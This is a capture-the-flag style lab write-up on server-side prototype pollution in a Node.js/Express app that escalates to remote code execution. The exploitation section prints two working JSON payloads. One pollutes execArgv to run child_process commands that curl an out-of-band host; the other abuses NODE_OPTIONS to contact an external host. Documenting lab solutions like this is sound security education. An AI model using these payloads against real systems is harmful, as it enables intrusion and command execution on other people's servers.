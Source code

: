 # Remote code execution via server-side prototype pollution
# Objective
This lab is built on Node.js and the Express framework. It is vulnerable to server-side prototype pollution because it unsafely merges user-controllable input into a server-side JavaScript object. Due to the configuration of the server, it's possible to pollute `Object.prototype` in such a way that you can inject arbitrary system commands that are subsequently executed on the server.

To solve the lab:

1. Find a prototype pollution source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget that you can use to inject and execute arbitrary system commands.
3. Trigger remote execution of a command that deletes the file `/home/carlos/morale.txt`.

In this lab, you already have escalated privileges, giving you access to admin functionality. You can log in to your own account with the following credentials: `wiener:peter`

# Solution
## Analysis
Endpoint `/my-account/change-address` allows given user to specify his billing and delivery address.
Endpoint `/admin/jobs` allows to run maintanence job.

|![](Images/image-54.png)|
|:--:|
| *Change billing and delivery address information request* |
|![](Images/image-60.png)|
| *Admin panel - run maintenance jobs* |
|![](Images/image-59.png)|
| *Admin panel - maintenance jobs results* |

## Exploitation
Attacker can achieve remote code execution by polluting (modifying) `execArgv` value. Triggering `Run Maintenance Jobs` spawns node child processes, which allows to trigger attacker provided command. 

|![](Images/image-55.png)|
|:--:| 
| *Standard request and raw response* |
|![](Images/image-56.png)|
| *Prototype pollution detection - JSON in response is indented 10 spaces* |

To verify RCE attacker can use the following out-of-band payload:
```json
{
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "Wienerville",
  "postcode": "BU1 1RP",
  "country": "UK",
  "sessionId": "kCjga9ORObuFOxUgocBN49RAu39WdCAr",
  "__proto__": {
    "execArgv": [
      "--eval=require('child_process').execSync('curl https://<id>.oastify.com')"
    ]
  }
}
```
or:
```json
{
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "Wienerville",
  "postcode": "BU1 1RP",
  "country": "UK",
  "sessionId": "kCjga9ORObuFOxUgocBN49RAu39WdCAr",
  "__proto__": {
    "argv0": "node",
    "shell": "node",
    "NODE_OPTIONS": "--inspect=<id>\"\".oastify\"\".com"
  }
}
```

|![](Images/image-57.png)|
|:--:| 
| *Prototype pollution - Preparing command to be executed* |
|![](Images/image-58.png)|
| *Triggering payload* |

